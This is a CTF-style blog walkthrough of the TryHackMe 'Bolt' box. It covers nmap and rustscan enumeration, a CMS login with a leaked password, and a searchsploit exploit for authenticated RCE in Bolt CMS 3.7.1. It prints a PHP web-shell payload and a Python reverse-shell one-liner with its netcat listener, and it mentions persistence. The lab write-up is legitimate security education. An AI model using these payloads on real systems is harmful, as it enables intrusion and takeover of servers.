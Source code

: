 ```yaml
---
layout: post
title: THM - Bolt Walkthrough
---
```


The following is a walkthrough for a basic machine that aims to educate beginners on proper enumeration and usage of a CVE to perform an authenticated Remote Code Execution (RCE) vulnerability to get a root shell on the server. Once root is obtained on a box there are a number of post exploitation activities seldom explored passed 'popping the box', however this is best let for another post for another day.

##### Initial Gathering
We start with a quick connection onto the TryHackMe lab and spinning up of the machine. We start with an Nmap, the format I like to go for box scans is to start with Rustscan and then flesh the scan out with a more defined Nmap one to wittle downt what those ports are. The commands are:

```
rustscan -a <IP_ADDRESS>
```
**Note, Rustscan may not be installed by default on your instance of Kali, and will require Golang (Go) to run.*
![_config.yml]({{ site.baseurl }}/../../images/rustscan_bolt.png)


Now that we have a list of IP addresses, we can move onto a more robust Nmap with the following command:
```
nmap -sV -sC -A -p <PORTS_DISCOVERED_DURING_RUSTSCAN> <IP_ADDRESS> -T4 -oN initial_nmap_bolt 
```
![_config.yml]({{ site.baseurl }}/../../images/nmap_bolt.png)

So in summary we have the following information to work off of:
- port TCP/22 showing that we have a remote management Secure Shell (SSH) port active;
- We have an Apache 2.4.29 page listed at on port TCP/80;
- We have a PHP based application running a Bolt CMS (This would be enumerated if you scrolled through the nmap) running on port TCP/8000
- The operating machine appears to be an Ubuntu server running as a web application.

##### Going deeper
Let's explore port TCP/8000 and take a look through the page.
![_config.yml]({{ site.baseurl }}/../../images/cms_frontpage_bolt.png)

Well at this point we have two potential usernames, jake or admin (or potential could be a default bolt username) and a password. To figure out where we could login to (most CMS frameworks have administrator portals) we could either bruteforce it, or alternatively just look at the documentation. Fortunately, [https://docs.boltcms.io/4.0/manual/login](https://docs.boltcms.io/4.0/manual/login) has the answer with */bolt* being the login page. Let's try the login here.
![_config.yml]({{ site.baseurl }}/../../images/inside_bolt.png)
We got in with the password we found, and the username being bolt. After trying jake and admin (together as shown on the post and capitalised at the front as well) I decided to attempt bolt as this would be a logical guess, especially if he is sharing this account for the 'secret' Bolt CMS blog.

##### Looking for the exploit
After a while of looking at the bolt CMS, we discover through enumeration the footer is that we are running a version of Bolt 3.7.1. Seeing that the box has been all about Bolt so far, let's search exploits available for Bolt 3.7.1, and namely looking at high impact CVEs such as RCE, injection, privesc, etc.
![_config.yml]({{ site.baseurl }}/../../images/exploit_search_bolt.png)
After starting with a generic search, it is prudent to keep adjusting your search until you get the exploit you want. Let's take a run of this in an attempt to break it.

##### Exploitation and Dissecting the CVE
The best way to view and test the exploit is to port it over and view with the *-m* flag as so:
```
searchsploit -m 48296
``` 
Now lets briefly look at the code before we blindly execute it:
![_config.yml]({{ site.baseurl }}/../../images/review_exploit_bolt.png)
Now this looks very confusing however at 74 lines of code (loc) without any minimisation, we can pretty realistically look at this and ascertain what it is doing. What this code does is:
1. Start by creating a web request session;
2. Using the session, login to the user specified when running the exploit by making a GET request to /bolt/login to return the authentication token;
3. Post a new user to /bolt/profile with the display name *<?php system($_GET['test']);?>*;
4. Perform a GET request to the /bolt/overview/showcases page and use BeautifulSoup to extract the CSRF token.
5. Perform a GET request and obtain the table in /async/browse/cache/.sessions?multiselect=true;
6. Iterate over the entries in the table until you get a session injection, and can post a *test1.php* file to /files. This file contains the session display name in step *.3* so will execute this code .
7. Send a GET request to *test1.php?test=* which contains that display name code.
8. At this point, we have a web shell.

If this all sounded confusing, that's because a web shell taking advantage of sessions and renaming files is. It took me multiple attempts to understand the exploit however now that we have a good understanding we can now run it (To save time. It is usually best to get a trivial understanding, run it, and then analyse it if it works to learn. You can't perform exploit analysis on every CVE you throw at a box).

(A testament to this is that I changed the *token* variable to ```token = soup.find(attrs={"id": "user_login__token"}).get("value")``` which I would have not been able to do if I just script kiddied it)

Running the exploit we are presented with the below.
![_config.yml]({{ site.baseurl }}/../../images/shell_bolt.png)

Now that we have a shell running root, we should work on running a more stable shell than the current web shell than what we currently have. The command for this is:
```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<LOCAL_IP>",<LISTENING_PORT>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

Listening with the command *nc -lvnp 9091*, we get a returned root shell. Upgrading our shell to fully interactive and creating SSH keys and new accounts for persistence, we now can perform actions such as adding this machine to a botnet, installing spyware, ransoming the box, or outright just breaking the build.
![_config.yml]({{ site.baseurl }}/../../images/root_bolt.png)

##### Conclusion
In this article, we successfully took a machine and went from initial information gathering to full exploitation. I hope that the article helped to ellucidate the risks to poor security practice, as well as the need to understand the exploits you are running and ability to modify what you are running.